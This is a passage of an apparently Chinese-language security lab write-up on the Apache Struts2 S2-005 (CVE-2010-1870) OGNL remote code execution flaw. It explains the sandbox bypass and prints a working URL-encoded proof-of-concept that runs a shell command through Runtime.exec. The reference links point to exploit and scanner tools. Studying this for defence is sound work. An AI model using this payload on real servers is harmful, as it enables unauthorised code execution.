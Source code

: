 ![][16]

## S2-005

远程代码执行漏洞，漏洞编号：CVE-2010-1870
影响版本: 2.0.0 - 2.1.8.1

原理(参考吴翰清的《白帽子讲 Web 安全》)

> s2-005 漏洞的起源源于 S2-003(受影响版本: 低于 Struts 2.0.12)，struts2 会将 http 的每个参数名解析为 OGNL 语句执行(可理解为 java 代码)。OGNL 表达式通过#来访问 struts 的对象，struts 框架通过过滤#字符防止安全问题，然而通过 unicode 编码(\u0023)或 8 进制(\43)即绕过了安全限制，对于 S2-003 漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用 OGNL 表达式将这 2 个选项打开，S2-003 的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

`XWork`会将`GET`参数的键和值利用`OGNL`表达式解析成 Java 语句，如:`user.address.city=Bishkek&user['favoriteDrink']=kumys`会被转化成

```
action.getUser().getAddress().setCity("Bishkek")
action.getUser().setFavoriteDrink("kumys")
```

触发漏洞就是利用了这个点，再配合`OGNL`的沙盒绕过方法，组成了`S2-003`。官方对`003`的修复方法是增加了安全模式（沙盒），`S2-00`5 在`OGNL`表达式中将安全模式关闭，又绕过了修复方法。整体过程如下：

```
S2-003 使用\u0023绕过s2对#的防御
S2-003 后官方增加了安全模式（沙盒）
S2-005 使用OGNL表达式将沙盒关闭，继续执行代码
```

靶场实操：

界面还做得挺好看：

![][17]

无回显`POC`:

```
action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1
```

> 大概可以理解为，(aaa)(bbb)中 aaa 作为 OGNL 表达式字符串，bbb 作为该表达式的 root 对象，所以一般 aaa 位置如果需要执行代码，需要用引号包裹起来，而 bbb 位置可以直接放置 Java 语句。(aaa)(bbb)=true 实际上就是 aaa=true。不过确切怎么理解，还需要深入研究，有待优化

> POC 放到 tomcat8 下会返回 400，研究了一下发现字符\、"不能直接放 path 里，需要 urlencode，编码以后再发送就好了。这个 POC 没回显。

我尝试多次后还是没搞定，有机会遇到再搞，这里就用现成的工具了

`k8`的命令执行：

![][18]

## S2-007


[1]: https://github.com/HatBoy/Struts2-Scan
[2]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_135731.png
[3]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_135254.png
[4]: https://github.com/Lucifer1993/struts-scan
[5]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_142550.png
[6]: https://github.com/k8gege/K8tools/blob/master/K8_Struts2_EXP%20S2-045%20%26%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%2020170310.rar
[7]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_151534.png
[8]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_171648.png
[9]: http://sec.lz520520.cn:88/article/7.html
[10]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_134126.png
[11]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_134417.png
[12]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_134606.png
[13]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_134710.png
[14]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_145451.png
[15]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_144112.png
[16]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_145248.png
[17]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_151159.png
[18]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_171511.png
[19]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_172415.png
[20]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_172605.png
[21]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_172625.png
[22]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200321_173038.png
[23]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_102028.png
[24]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_103249.png
[25]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_104530.png
[26]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_105449.png
[27]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_105634.png
[28]: https://img.soapffz.com/archives_img/2020/03/21/archives_20200329_110202.png
[29]: https://github.com/vulhub/vulhub/tree/master/struts2
[30]: https://mp.weixin.qq.com/s/a06y_BANpGFcgS9hJAAtGw
[31]: https://mp.weixin.qq.com/s/99pPDZFA1fo-tC8U1WD7qA
[32]: https://mp.weixin.qq.com/s/6Hx1Ngb9UMtJlRMWb6s2fQ
